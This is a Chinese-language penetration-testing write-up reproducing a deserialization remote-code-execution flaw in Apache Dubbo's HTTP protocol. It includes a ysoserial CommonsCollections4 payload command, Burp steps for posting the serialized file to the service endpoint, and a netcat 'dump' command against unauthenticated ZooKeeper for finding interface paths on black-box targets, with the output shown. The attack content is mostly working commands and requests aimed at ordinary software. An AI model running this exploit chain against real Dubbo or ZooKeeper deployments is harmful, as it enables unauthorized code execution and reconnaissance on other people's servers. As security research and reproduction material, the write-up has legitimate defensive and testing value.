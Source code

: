**漏洞复现**

### **payload 生成**

ysoserial.jar 工具直接下载 GitHub 地址 https://gitter.im/frohoff/ysoserial

`java -jar ysoserial.jar CommonsCollections4 calc > calc.ser`

### **发包**

浏览器访问 HTTP 协议接口路径（参考`target/classes/spring/http-provider.xml`文件中的配置）

`http://192.168.186.1:8080/org.apache.dubbo.samples.http.api.DemoService`，抓取请求包。

发送到 burp 的重放模块，请求方式改为`POST`，数据体用`Paste from file`选项选择刚才的 paylaod 文件`calc.ser`  
点击`Go`即可出发漏洞执行`calc`命令

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4AazgvxFGngd73f6MLicqdf31vmlyBMvicCx7SrQCRstfJ6whvFUiaDQEHO0xjQrQcyZMLxtZAIjceA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4AazgvxFGngd73f6MLicqdfDNk6LBm1SQJLq37yMvqibBOtJU0VysN0o5oqoV5orNDuF3AJbfwDPtg/640?wx_fmt=png)

**识别及利用**

  

虽然这个漏洞复现起来挺简单的，但是，在实际渗透测试中使用却存在两个难点：

1.  不能确定目标 Dubbo 是否使用 http 协议。
    
2.  无法确定接口路径。
    

那么问题来了，黑盒情况下如何获取这些信息？

我首先想到拿我本地复现时的默认接口路径去尝试，经过一番 fofa、shodan 尝试，随即否定了。

我们回过头来分析一下，接口信息是写在`http-provider.xml`配置中的，如下，配置的最后一行：

```
<beans xmlns:xsi="http://www.w3.org/2001/XMLSchema-i·······">
    <context:property-placeholder/>
    <dubbo:application />
    <dubbo:registry address="zookeeper://${zookeeper.address:127.0.0.1}:2181"/>
    <dubbo:protocol ${servlet.port:8080}" server="${servlet.container:tomcat}"/>
    <bean/>
    <dubbo:service interface="org.apache.dubbo.samples.http.api.DemoService" ref="demoService" protocol="http"/>
</beans>

```

同时，Dubbo 又跟 zookeeper 有交互。

虽然我们不能直接查看`http-provider.xml`配置文件，但是 zookeeper 默认情况下，存在未授权访问漏洞。正好可以利用这个漏洞来查看接口路径，同时也解决了 Dubbo 所使用的协议的问题。

```
kali@kali:~$ echo dump | nc  192.168.186.1 2181
SessionTracker dump:
Session Sets (3):
0 expire at Sun Sep 06 15:32:44 CST 2020:
0 expire at Sun Sep 06 15:32:56 CST 2020:
1 expire at Sun Sep 06 15:33:10 CST 2020:
        0x1745a82ab030007
ephemeral nodes dump:
Sessions with Ephemerals (1):
0x1745a82ab030007:
        /dubbo/org.apache.dubbo.samples.http.api.DemoService/providers/http%3A%2F%2F192.168.186.1%3A8080%2Forg.apache.dubbo.samples.http.api.DemoService%3Fanyhost%3Dfalse%26application%3Dhttp-provider%26bean.name%3Dorg.apache.dubbo.samples.http.api.DemoService%26deprecated%3Dfalse%26dubbo%3D2.0.2%26dynamic%3Dtrue%26generic%3Dfalse%26interface%3Dorg.apache.dubbo.samples.http.api.DemoService%26methods%3DsayHello%26pid%3D4988%26register%3Dtrue%26release%3D2.7.3%26server%3Dtomcat%26side%3Dprovider%26timestamp%3D1599374218648

```